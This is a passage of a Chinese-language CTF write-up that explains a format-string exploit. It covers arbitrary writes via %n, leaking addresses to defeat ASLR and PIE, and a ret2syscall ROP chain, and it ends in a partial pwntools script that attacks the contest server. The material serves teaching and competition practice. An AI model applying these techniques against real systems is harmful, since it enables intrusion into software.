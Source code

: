 有的选手想用%s来直接输出，但这位选手显然没有想清楚%s的工作原理：printf会先读取传入的参数的值，然后作为地址再去内存对应位置访问字符串。这意味着你要是想用%s直接输出flag的话，需要先往里面写入一下flag的地址。

### flag2

显然这是一个传统的pwn任务。而我们有了format string做任意写后并不难。

如果你不太熟悉这类任务的话，可以去复习一下ICS，同时看一看[ctf-wiki 相关章节](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/)。

首先我们先看具体怎么做任意写。%n可以往变量写入"前面已经输出的字符数"，因此我们直接构造一个拥有x个字符的format string之后再紧跟一个%x$n，就可以写入到第x个参数对应的变量了。注意到题目中限制了输出串的长度，因此如果要多次写入的话，一次只能写入一个字节。注意到写入的大小是4字节，因此会额外把一些高位置零(不过在后续的情况中，以特定的顺序写入就不会覆盖重要数据)。同时注意到使用%n时，参数应该传入一个指针，也就是说真正的流程是：printf从对应位置参数读出内存地址，然后往对应的内存地址写数。因此我们要做到任意位置写，应该先在内存的某个地方写入这个地址，之后再用这个地方作为参数调用printf的%n。

之后就是一个传统ICS的pwn题了。我们参照ctf-wiki的内容，发现这题居然保护全开了(唯一比ICS要难一点的地方)。这意味着栈地址和基地址都是随机的。但显然相对地址是固定的，我们也不难通过printf从栈上/寄存器上直接读出来某个变量/return address的地址，之后就能推出基址和其他变量的地址。

得到信息之后，我们不难发现我们只需要实现一个简单的栈上ROP。具体地，代码本身并不直接存在后门，但我们可以ret2syscall。参照ctf-wiki的内容，使用ROPGadget找到需要构造的syscall参数可以使用的gadget的地址，之后通过构造栈，使得我们可以ROP跳过去即可。注意到上述%n的置零问题，在这里面我们正好置的是栈上存储的rbp(并没有碰到canary)，显然当我们跳syscall时已经不关键了。

在找地址的时候，可以使用debugger直接监测不同内存位置的值，找变量地址比较快。当然你也可以使用IDA之类的直接看。对于代码段地址直接找就好了。

### 一键脚本

```python
from pwn import *

# s=process('./pwn')
s=remote("prob09.geekgame.pku.edu.cn",10009)

s.sendline("TOKEN")

def calls(data):
    s.recvuntil(b'instruction:')
    s.recvline()
    s.sendline(data.encode())
    return s.recvline()


def callb(data):
    s.recvuntil(b'instruction:')
    s.recvline()
    s.sendline(data)
    return s.recvline()


def toint(byt):
    return int(byt.strip(),16)

pubs_saddr=0x7fffc01c7870
pubs_addr=toint(calls("%1$llx"))

flag1_saddr=0x7fffc01c78b0
flag1_addr=pubs_addr-pubs_saddr+flag1_saddr
buf_saddr=0x7fffc01c78f0
buf_addr=pubs_addr-pubs_saddr+buf_saddr

rsp_saddr=0x7fffc01c7810

print(hex(pubs_addr),hex(flag1_addr))



def getqword_s(saddr):
```